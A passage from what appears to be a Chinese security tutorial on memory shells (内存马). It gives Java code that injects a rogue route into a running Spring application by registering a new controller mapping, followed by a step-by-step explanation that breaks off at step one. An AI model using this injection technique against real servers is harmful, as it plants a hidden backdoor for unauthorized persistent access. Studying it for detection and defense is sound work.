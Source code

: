 
![1730616526552](image/【18】内存马专栏/1730616526552.png)

**注入内存马部分**：

```java
...
public class InjectToController {
    public InjectToController() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method2 = InjectToController.class.getMethod("test");
        PatternsRequestCondition url = new PatternsRequestCondition("good");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        InjectToController injectToController = new InjectToController("aaa");
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    }
    public InjectToController(String aaa) {}
```

主要步骤分为以下3步

```
RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```

1.获取到mapping处理方法

```
Method method2 = InjectToController.class.getMethod("test");
```
